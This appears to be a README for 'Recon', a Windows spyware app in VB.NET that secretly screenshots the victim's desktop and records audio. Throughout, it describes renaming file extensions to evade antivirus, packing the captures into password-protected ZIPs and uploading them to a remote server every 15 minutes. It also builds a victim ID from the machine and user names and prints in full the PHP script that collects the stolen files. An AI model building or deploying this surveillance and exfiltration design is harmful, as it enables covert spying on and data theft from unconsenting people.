 # Recon
### Basic spyware that can secretly take screenshots and record the audio input and output of the target computer.
  
  
- Recon is a Windows Form app written in VB.NET targeting the .NET Framework 4.7.2
- Recon takes a screenshot of the target computer desktop every 5 seconds, it saves screenshots in PNG format. The app uses [nQuant.Core.NETStandard](https://www.nuget.org/packages/nQuant.Core.NETStandard/1.0.0) and custom PNG encoder parameters to reduce the size of the generated PNG files thus optimizing the data upload speed.
- Recon uses [NAudio](https://github.com/naudio/NAudio) to capture the audio input and output into WAV streams.
- Recon uses [NAudio.Lame](https://github.com/Corey-M/NAudio.Lame) to convert WAV streams to MP3 in order to produce smaller audio files suitable for data exfiltration.
- The app uses custom file extensions so that it won't trigger AVs(rpng for PNG image files, rmp3 for MP3 files, and rzip for ZIP archive files).
- After generating the data, the app uses [DotNetZip](https://github.com/haf/DotNetZip.Semverd) to create a password-protected ZIP file to contain the exfiltrated data. The ZIP files will be uploaded to the remote server every 15 minutes using the **WebClient** class.
- The app uploads the generated screenshots and audio files to the remote server running the following PHP script:
```
<?php

header("Cache-Control: no-store, no-cache, must-revalidate, max-age=0");
header("Cache-Control: post-check=0, pre-check=0", false);
header("Pragma: no-cache");

if (!isset($_POST)) exit(-1); // No POST data

if (isset($_GET['computer_id']) && !empty($_GET['computer_id'])) {
  $computerId = htmlspecialchars(trim($_GET['computer_id']), ENT_QUOTES); //Get target computer ID
} else {
  echo "No computer ID";
  exit(-1);
}

$data_dir = './data/';

$target_dir = $data_dir . $computerId;
if (!file_exists($target_dir))  mkdir(($target_dir));

$target_file = $target_dir . '/' . basename($_FILES["file"]["name"]);
$target_fileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));

$uploadOk = 1;

// Check if file already exists
if (file_exists($target_file)) {
  echo "File already exists";
  $uploadOk = 0;
}

// Check file size
if ($_FILES["file"]["size"] > 250000000) { //250 MB limit
  echo "File exceeds the maximum size";
  $uploadOk = 0;
}

// Check file type
if ($target_fileType != "zip" && $target_fileType != "rzip") {
  echo "Only ZIP and RZIP files are allowed";
  $uploadOk = 0;
}

if ($uploadOk == 1) {

  $tmp_name = $_FILES["file"]["tmp_name"];

  if (move_uploaded_file($tmp_name, $target_file)) {
    echo "File uploaded successfully";
  } else {
    echo "Error uploading the file";
  }
}

```
- The app generates an ID for the target computer and sends it to the remote server; the ID consists of the machine name, user name, and OS version. The computer ID helps organize the uploaded data on the server.
